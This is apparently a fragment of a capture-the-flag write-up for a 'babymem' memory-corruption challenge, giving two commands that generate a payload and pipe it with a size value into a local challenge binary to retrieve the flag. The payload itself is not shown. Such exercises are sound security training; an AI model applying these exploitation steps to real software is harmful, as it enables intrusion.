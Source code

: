 You can use the following commands to get the flag.

You might have to run the last command multiple times to get the flag.

```
./run.py
(echo "58"; cat payload) | /babymem_level9_testing1
```